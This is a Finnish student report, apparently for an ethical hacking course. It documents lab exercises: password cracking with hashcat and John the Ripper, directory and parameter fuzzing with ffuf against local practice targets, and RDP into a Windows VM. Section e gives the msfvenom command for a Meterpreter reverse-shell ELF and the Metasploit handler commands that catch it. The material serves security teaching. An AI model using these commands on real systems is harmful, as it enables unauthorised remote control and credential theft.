


## x)
**Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf**
- Ffuf-työkalua voidaan käyttää piilotettujen verkkohakemistojen löytämiseen.
- Korvaa manuaalisen hakemiston etsinnän automatisoidulla prosessilla.

**Karvinen 2022: Cracking Passwords with Hashcat**
- Artikkeli opastaa, kuinka hashcat-työkalulla voidaan murtaa salasanoja, tunnistaa erilaiset hash-tyypit.


**Karvinen 2023: Crack File Password With John**
- Artikkeli opastaa John the Ripperin käyttöön ZIP-tiedoston salasanan murtamiseen.

## a)
Tämä tehtävä nojautuu paljolti [teron artikkelin](https://terokarvinen.com/2022/cracking-passwords-with-hashcat/) avustukseen.
Aloitin asentamalla hashcatin kali linuxiin `sudo apt install hashcat` -komennolla.

Latasin Rockyou-sanakirjan käyttäen wgetia
`wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz`
Tämän jälkeen purin ladatun tiedoston käyttöä varten.

Ennen salasanan murtamista on tärkeää tunnistaa hash-tyypin. Tätä varten käytin `hashid`-työkalua:
`hashid -m 6b1628b016dff46e6fa35684be6acc96`

Mursin hashin käyttämällä Hashcatia seuraavasti:
`hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved`
Tässä komennossa `-m 0` määrittää hash-tyypin (tässä tapauksessa MD5) ja `-o solved` tallentaa murretun salasanan tiedostoon nimeltä "solved".


## b
Hain wgetilla teron artikkelin dirfuzt-1 tehtävän.
`wget https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/dirfuzt-1` 


Seuraavaksi asensin ffuf-työkalun `sudo apt install ffuf`

Ffufia varten latasin sanakirjan, joka sisältää kokeiltavat polut.
`wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt`

Käytin ffuf-työkalua hakemistojen löytämiseen antamalla seuraavan komennon: `ffuf -w common.txt -u http://127.0.0.2:8000/FUZZ` Tässä `-w` optio määrittää käytettävän sanakirjan ja `-u` määrittää URL:n.


Tulosten mukaan suurin osa vastauksista oli 154 tavua, mikä viittasi yleiseen, merkityksettömään vastaukseen. Suodatin nämä pois seuraavalla komennolla:
`ffuf -w common.txt -u http://127.0.0.2:8000/FUZZ -fs 154`


Filtteröinnin jälkeen vastauksia tuli 7.
`wp-admin` palautti oletettavasti oikean vastauksen. 
Hieman ihmettelin, kun kaikki `/.git/` -alkuiset päätteet palautti myös saman vastauksen.


## c)

John the Ripper oli jo asennettuna Kali Linux -järjestelmässäni, joten asennusvaihetta ei tarvittu. Varmistin tämän vielä ajamalla `john -h` -komennon.


Lähdin liikkeelle lataamalla salasanalla suojatun zip-tiedoston, jonka salasanaa yritin selvittää:
 `wget https://TeroKarvinen.com/2023/crack-file-password-with-john/tero.zip` 
Tiedoston avaaminen tavallisilla keinoilla epäonnistui, sillä en tiennyt salasanaa.

Aloitin salasanan murtamisprosessin purkamalla zip-tiedoston salasanan hash-arvon `zip2john tero.zip >tero.zip.hash` -komennolla. 


Seuraavaksi käynnistin John the Ripper -ohjelman, joka analysoi hash-tiedoston ja yrittää murtaa salasanan `john tero.zip.hash`


Ohjelma suoritti analyysin ja onnistui löytämään oikean salasanan nopeasti.


## d)
Aloitin asentamalla dockerin `sudo apt install docker.io`
Seuraavaksi loin ffufme harjoituksen Docker konttiin seuraavilla komennoilla: 
```
git clone https://github.com/adamtlangley/ffufme 
cd ffufme/ 
sudo docker build -t ffufme .
```


Käynnistin kontin komennolla `sudo docker run -d -p 80:80 ffufme` ja varmistin asennuksen toimivuuden käyttämällä `curl -si localhost | grep title`, mikä palautti odotetun HTML-sivun otsikon.


Latasin "wordlistit" wordlists -kansioon käyttäen seuraavia komentoja: 
```
wget http://ffuf.me/wordlist/common.txt wget http://ffuf.me/wordlist/parameters.txt wget http://ffuf.me/wordlist/subdomains.txt
```

Ajoin komennon `ffuf -w $HOME/wordlists/common.txt -u http://ffuf.me/cd/basic/FUZZ` ja sain ffuf kotisivun näkyviin.


**basic content discovery**
Aloitin tämän tehtävän ajamalla konsolissa tehtävässä annetun komennon `ffuf -w $HOME/wordlists/common.txt -u http://localhost/cd/basic/FUZZ`. Tämä onnistuneesti löysi `class` ja `development.log` tiedostot.


**Content Discovery With Recursion**
Tämä tehtävä onnistui ajamalla komennon `ffuf -w ~/wordlists/common.txt -recursion -u http://localhost/cd/recursion/FUZZ`.
Tämä paljasti tehtävässä halutut hakemistot `/admin`, `/admin/users` ja `/admin/users/96`.


**Content Discovery With File Extensions**
Tähänkin tehtävään löytyi oikeat tiedot annetulla komennolla `ffuf-w ~/wordlists/common.txt -e .log -u http://localhost/cd/ext/logs/FUZZ`


**No 404 Status**
Tässä tehtävässä käytin ensin komentoa `ffuf -w ~/wordlists/common.txt -u http://localhost/cd/no404/FUZZ`, joka tuotti monia 669 tavun vastauksia.

`ffuf -w ~/wordlists/common.txt -u http://localhost/cd/no404/FUZZ -fs 669`
Käyttämällä suodatinta `-fs 669`, löytyi `secret` tiedosto


**Param Mining**

Parametrien kaivuutehtävässä käytin ohjeen mukaisesti komentoa `ffuf -w ~/wordlists/parameters.txt -u http://localhost/cd/param/data?FUZZ=1`, joka paljasti parametrin `debug`.



**Rate Limited**

Kohtasin haasteita tässä tehtävässä, jossa palvelu rajoitti pyyntöjen määrää. Yritin eri komentoja, mutta jatkuvat virheet estivät sisällön löytämisen.

**Subdomains - Virtual Host Enumeration**

Tehtävässä käytin komentoa `ffuf -w ~/wordlists/subdomains.txt -H "Host: FUZZ.ffuf.me" -u http://localhost -fs 1495`, joka tunnisti `redhat`.



## e)
Tein reverse shell haittaohjelman msfvenomilla. `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f elf > runme.elf`. Tämä komento luo ELF-tiedoston, joka avaa reverse shell -yhteyden määriteltyyn isäntään ja porttiin.

Avasin msfconlosen ja suoritin siellä seuraavat komennot
```
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set LPORT 4444
run
```


Nämä komennot valmistavat Metasploitin kuuntelemaan tulevia yhteyksiä määritellystä IP-osoitteesta ja portista.

Testasin haittaohjelman toimivuuden suorittamalla `runme.elf`-tiedoston kohdekoneella, joka tässä tapauksessa oli sama virtuaalikone, jossa haittaohjelma luotiin. Tämä varmisti, että reverse shell -yhteys avattiin ja hallinta oli mahdollista.


## f)
Latasin windows 10 vm virtualboxiin microsoftin [sivuilta](https://www.microsoft.com/en-us/evalcenter/download-windows-10-enterprise). 
Asennus vaiheessa valitsin kieli, näppäimistö ja aikavyöhyke asetukset.


## g)

Ensimmäisenä vaiheena otin käyttöön etätyöpöydän Windows-koneessa. Tämä tehtiin Asetukset-valikosta valitsemalla `system` > `remote desktop` ja aktivoimalla `Enable Remote Desktop` -vaihtoehto. 


Järjestin molemmat koneet samaan verkkoon käyttäen VirtualBoxin NAT-verkkoasetusta.


Latasin linuxiin xfreerdp:n `sudo apt install freerdp2-x11` -komennolla.


Ajoin linuxissa `xfreerdp /v:10.0.2.15 /u:qwerty /p:<salasana>`, joka avasi rdp yhteyden windows koneeseen.
Tässä komennossa `/v` määrittää kohdekoneen IP-osoitteen, `/u` käyttäjätunnuksen ja `/p` salasanan. Tämä komento avasi RDP-yhteyden Windows-koneeseen, mikä salli käytön Linuxista.


## Lähteet
https://terokarvinen.com/2024/eettinen-hakkerointi-2024/

https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/

https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

https://terokarvinen.com/2023/crack-file-password-with-john/

https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/

https://terokarvinen.com/2023/fuffme-web-fuzzing-target-debian/

https://linux.die.net/man/1/xfreerdp
